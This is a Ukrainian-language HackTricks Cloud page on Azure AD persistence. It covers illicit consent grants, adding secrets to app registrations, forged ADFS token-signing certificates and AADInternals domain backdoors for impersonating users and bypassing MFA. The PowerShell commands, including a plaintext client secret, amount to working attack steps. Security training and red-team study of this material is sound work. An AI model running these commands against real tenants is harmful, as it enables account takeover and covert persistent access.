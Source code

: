 # Az - Наполегливість

{% hint style="success" %}
Вивчайте та практикуйте взлом AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Школа взлому HackTricks для експертів червоних команд AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте взлом GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Школа взлому HackTricks для експертів червоних команд GCP (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

### Незаконне надання згоди

За замовчуванням будь-який користувач може зареєструвати додаток у Azure AD. Таким чином, ви можете зареєструвати додаток (лише для цільового орендаря), який потребує високих дозволів з адміністративною згодою (затвердити його, якщо ви є адміністратором) - наприклад, відправка листів від імені користувача, управління ролями тощо. Це дозволить нам **здійснювати атаки фішингу**, які були б дуже **плідними** у випадку успіху.

Крім того, ви також можете прийняти цей додаток за допомогою свого користувача як спосіб збереження доступу до нього.

### Додатки та службові облікові записи

З привілеями адміністратора додатків, GA або власної ролі з дозволами на оновлення мікрософт.directory/applications/credentials, ми можемо додати облікові дані (секрет або сертифікат) до існуючого додатка.

Можливо **націлювати додаток з високими дозволами** або **додавати новий додаток** з високими дозволами.

Цікавою роллю для додавання до додатка була б **роль адміністратора привілейованої аутентифікації**, оскільки вона дозволяє **скидати пароль** глобальних адміністраторів.

Ця техніка також дозволяє **обійти багатофакторну аутентифікацію**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Для аутентифікації на основі сертифікатів

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Федерація - Сертифікат підпису токена

З **привілеями DA** на локальному AD, можливо створити та імпортувати **нові сертифікати підпису токена** та **розшифрування токена**, які мають дуже довгий термін дії. Це дозволить нам **увійти як будь-який користувач**, чиїм ImuutableID ми знаємо.

**Виконайте** наведену нижче команду як **DA на серверах ADFS**, щоб створити нові сертифікати (за замовчуванням пароль 'AADInternals'), додайте їх до ADFS, вимкніть автоматичне оновлення та перезапустіть службу:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Потім оновіть інформацію про сертифікати з Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Федерація - Довірений домен

З правами GA на орендаря, можливо **додати новий домен** (його необхідно підтвердити), налаштувати його тип аутентифікації на Федеративний та налаштувати домен для **довіри до певного сертифіката** (any.sts у команді нижче) та випускача:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Посилання

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Вивчайте та практикуйте хакінг AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Школа хакінгу HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте хакінг GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Школа хакінгу HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакінг-трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

